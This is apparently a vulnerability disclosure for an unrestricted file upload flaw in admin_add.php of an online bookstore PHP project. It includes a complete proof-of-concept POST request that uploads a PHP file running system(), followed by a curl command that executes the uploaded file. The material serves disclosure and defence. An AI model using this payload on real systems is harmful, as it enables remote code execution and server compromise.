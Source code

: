 # Itsourcecode Online-Bookstore-Project-In-PHP-Source-Code v1.0 admin_add.php Unrestricted Upload
# NAME OF AFFECTED PRODUCT(S)
+ Online-Bookstore-Project-In-PHP-Source-Code 
## Vendor Homepage
+ https://itsourcecode.com/free-projects/php-project/online-book-store-project-in-php-with-source-code/
# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ Lanxiy7th
## Vulnerable File
+ admin_add.php
## VERSION(S)
+ V1.0
## Software Link
+ https://itsourcecode.com/wp-content/uploads/2021/03/Online-Bookstore-Project-In-PHP-Source-Code.zip
# PROBLEM TYPE
## Vulnerability Type
+ Unrestricted Upload
## Root Cause
+  In line 30 of the admin_add.php file,The input obtained through $- FILES is directly used to determine the storage location of the file, without conducting a complete security check. The specific code snippet is as follows:
+ ![1](1.png)
## Impact
+ Attackers can exploit this vulnerability to upload malicious files without restriction, which can lead to file overwrite, file injection, directory traversal attacks, and denial of service attacks. Exploiting malicious files can lead to remote attacks on RCE
# DESCRIPTION
+ The file upload operation was triggered on line 30 of the "admin_add.php" file, and the uploaded file was received using the "$- FILES" variable. Due to the lack of appropriate input validation and cleaning, remote attackers only need to use regular user login to pass malicious payloads through this file upload function, resulting in unrestricted file uploads, which may further lead to remote code execution (RCE).
# Vulnerability details and POC
```
POST /admin_add.php HTTP/1.1
Host: 192.168.210.199:1213
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------354751125914566749201264572370
Content-Length: 1086
Origin: http://192.168.210.199:1213
Connection: close
Referer: http://192.168.210.199:1213/admin_add.php
Upgrade-Insecure-Requests: 1
Priority: u=1

-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="isbn"

123
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="title"

123
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="author"

123123
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="image"; filename="321.php"
Content-Type: application/octet-stream

<?php system("ipconfig"); ?>
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="descr"

1231231
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="price"

123123
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="publisher"

12312312
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="add"

Add new book
-----------------------------354751125914566749201264572370--

```
+ ![2](2.png)
+ ![3](3.png)
## I successfully executed the PHP script on the terminal
```bash 
curl http://192.168.210.199:1213/bootstrap/img/321.php
```
+ ![4](4.png)